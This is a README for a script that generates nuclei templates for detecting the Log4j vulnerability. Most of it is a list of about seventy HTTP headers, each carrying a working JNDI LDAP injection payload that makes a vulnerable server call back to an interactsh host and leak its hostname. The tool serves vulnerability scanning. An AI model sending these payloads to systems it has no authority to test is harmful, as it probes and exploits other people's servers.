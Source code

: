 #Generate nuclei template for log4j detection from a header file

header list taken from:
`https://github.com/fullhunt/log4j-scan/blob/master/headers-large.txt`
check for updates:

##Instalation

```
git clone https://github.com/SirAppSec/nuclei-template-generator-log4j.git
pip install unidecode #for slugification
```

Usage:
```python3 gen.py -f headers-small.txt -o headers.txt```

Example Output:
```
Referer: ${jndi:ldap://${hostName}.referer.{{interactsh-url}}}
X-Api-Version: ${jndi:ldap://${hostName}.xapiversion.{{interactsh-url}}}
Accept-Charset: ${jndi:ldap://${hostName}.acceptcharset.{{interactsh-url}}}
Accept-Datetime: ${jndi:ldap://${hostName}.acceptdatetime.{{interactsh-url}}}
Accept-Encoding: ${jndi:ldap://${hostName}.acceptencoding.{{interactsh-url}}}
Accept-Language: ${jndi:ldap://${hostName}.acceptlanguage.{{interactsh-url}}}
Cookie: ${jndi:ldap://${hostName}.cookie.{{interactsh-url}}}
Forwarded: ${jndi:ldap://${hostName}.forwarded.{{interactsh-url}}}
Forwarded-For: ${jndi:ldap://${hostName}.forwardedfor.{{interactsh-url}}}
Forwarded-For-Ip: ${jndi:ldap://${hostName}.forwardedforip.{{interactsh-url}}}
Forwarded-Proto: ${jndi:ldap://${hostName}.forwardedproto.{{interactsh-url}}}
From: ${jndi:ldap://${hostName}.from.{{interactsh-url}}}
TE: ${jndi:ldap://${hostName}.te.{{interactsh-url}}}
True-Client-IP: ${jndi:ldap://${hostName}.trueclientip.{{interactsh-url}}}
Upgrade: ${jndi:ldap://${hostName}.upgrade.{{interactsh-url}}}
User-Agent: ${jndi:ldap://${hostName}.useragent.{{interactsh-url}}}
Via: ${jndi:ldap://${hostName}.via.{{interactsh-url}}}
Warning: ${jndi:ldap://${hostName}.warning.{{interactsh-url}}}
X-Api-Version: ${jndi:ldap://${hostName}.xapiversion.{{interactsh-url}}}
Max-Forwards: ${jndi:ldap://${hostName}.maxforwards.{{interactsh-url}}}
Origin: ${jndi:ldap://${hostName}.origin.{{interactsh-url}}}
Pragma: ${jndi:ldap://${hostName}.pragma.{{interactsh-url}}}
DNT: ${jndi:ldap://${hostName}.dnt.{{interactsh-url}}}
Cache-Control: ${jndi:ldap://${hostName}.cachecontrol.{{interactsh-url}}}
X-Att-Deviceid: ${jndi:ldap://${hostName}.xattdeviceid.{{interactsh-url}}}
X-ATT-DeviceId: ${jndi:ldap://${hostName}.xattdeviceid.{{interactsh-url}}}
X-Correlation-ID: ${jndi:ldap://${hostName}.xcorrelationid.{{interactsh-url}}}
X-Csrf-Token: ${jndi:ldap://${hostName}.xcsrftoken.{{interactsh-url}}}
X-CSRFToken: ${jndi:ldap://${hostName}.xcsrftoken.{{interactsh-url}}}
X-Do-Not-Track: ${jndi:ldap://${hostName}.xdonottrack.{{interactsh-url}}}
X-Foo: ${jndi:ldap://${hostName}.xfoo.{{interactsh-url}}}
X-Foo-Bar: ${jndi:ldap://${hostName}.xfoobar.{{interactsh-url}}}
X-Forwarded: ${jndi:ldap://${hostName}.xforwarded.{{interactsh-url}}}
X-Forwarded-By: ${jndi:ldap://${hostName}.xforwardedby.{{interactsh-url}}}
X-Forwarded-For: ${jndi:ldap://${hostName}.xforwardedfor.{{interactsh-url}}}
X-Forwarded-For-Original: ${jndi:ldap://${hostName}.xforwardedfororiginal.{{interactsh-url}}}
X-Forwarded-Host: ${jndi:ldap://${hostName}.xforwardedhost.{{interactsh-url}}}
X-Forwarded-Port: ${jndi:ldap://${hostName}.xforwardedport.{{interactsh-url}}}
X-Forwarded-Proto: ${jndi:ldap://${hostName}.xforwardedproto.{{interactsh-url}}}
X-Forwarded-Protocol: ${jndi:ldap://${hostName}.xforwardedprotocol.{{interactsh-url}}}
X-Forwarded-Scheme: ${jndi:ldap://${hostName}.xforwardedscheme.{{interactsh-url}}}
X-Forwarded-Server: ${jndi:ldap://${hostName}.xforwardedserver.{{interactsh-url}}}
X-Forwarded-Ssl: ${jndi:ldap://${hostName}.xforwardedssl.{{interactsh-url}}}
X-Forwarder-For: ${jndi:ldap://${hostName}.xforwarderfor.{{interactsh-url}}}
X-Forward-For: ${jndi:ldap://${hostName}.xforwardfor.{{interactsh-url}}}
X-Forward-Proto: ${jndi:ldap://${hostName}.xforwardproto.{{interactsh-url}}}
X-Frame-Options: ${jndi:ldap://${hostName}.xframeoptions.{{interactsh-url}}}
X-From: ${jndi:ldap://${hostName}.xfrom.{{interactsh-url}}}
X-Geoip-Country: ${jndi:ldap://${hostName}.xgeoipcountry.{{interactsh-url}}}
X-Http-Destinationurl: ${jndi:ldap://${hostName}.xhttpdestinationurl.{{interactsh-url}}}
X-Http-Host-Override: ${jndi:ldap://${hostName}.xhttphostoverride.{{interactsh-url}}}
X-Http-Method: ${jndi:ldap://${hostName}.xhttpmethod.{{interactsh-url}}}
X-Http-Method-Override: ${jndi:ldap://${hostName}.xhttpmethodoverride.{{interactsh-url}}}
X-HTTP-Method-Override: ${jndi:ldap://${hostName}.xhttpmethodoverride.{{interactsh-url}}}
X-Http-Path-Override: ${jndi:ldap://${hostName}.xhttppathoverride.{{interactsh-url}}}
X-Https: ${jndi:ldap://${hostName}.xhttps.{{interactsh-url}}}
X-Htx-Agent: ${jndi:ldap://${hostName}.xhtxagent.{{interactsh-url}}}
X-Hub-Signature: ${jndi:ldap://${hostName}.xhubsignature.{{interactsh-url}}}
X-If-Unmodified-Since: ${jndi:ldap://${hostName}.xifunmodifiedsince.{{interactsh-url}}}
X-Imbo-Test-Config: ${jndi:ldap://${hostName}.ximbotestconfig.{{interactsh-url}}}
X-Insight: ${jndi:ldap://${hostName}.xinsight.{{interactsh-url}}}
X-Ip: ${jndi:ldap://${hostName}.xip.{{interactsh-url}}}
X-Ip-Trail: ${jndi:ldap://${hostName}.xiptrail.{{interactsh-url}}}
X-ProxyUser-Ip: ${jndi:ldap://${hostName}.xproxyuserip.{{interactsh-url}}}
X-Requested-With: ${jndi:ldap://${hostName}.xrequestedwith.{{interactsh-url}}}
X-Request-ID: ${jndi:ldap://${hostName}.xrequestid.{{interactsh-url}}}
X-UIDH: ${jndi:ldap://${hostName}.xuidh.{{interactsh-url}}}
X-Wap-Profile: ${jndi:ldap://${hostName}.xwapprofile.{{interactsh-url}}}
X-XSRF-TOKE: ${jndi:ldap://${hostName}.xxsrftoken.{{interactsh-url}}}

```
